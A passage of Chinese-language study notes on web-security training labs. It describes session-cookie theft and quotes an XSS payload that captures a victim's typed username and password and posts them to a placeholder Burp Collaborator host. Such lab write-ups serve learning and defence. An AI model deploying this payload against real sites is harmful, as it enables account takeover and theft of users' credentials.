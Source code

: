 这里有一个[VIDEO](https://www.youtube.com/watch?v=zs1OsfL0z4o)。大概是我还差了一步。

我要用管理员的cookie登录进去才行。

因为你写了这个之后，他会给你发一个cookie，然后你要用这个cookie进去。

![25.2](xss-burp.assets/25.2.png)



就这个，你需要用burp抓包，用这个session进去。

#### 26. Exploiting cross-site scripting to capture passwords

这次学聪明了，不仅要获得受害者的用户名和密码，还要用他们来登录。

找了半天没看到用户名和密码在哪，然后去看了一下官方的payload：

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

好家伙，居然是要受害者输入的。

`onchange`：输入框改变后触发。

然后就是按照上面的题目依葫芦画瓢。

然后将得到的帐号密码，在右上角靠下一点有个login，登录进去就可以了。

#### 27. Exploiting XSS to perform CSRF
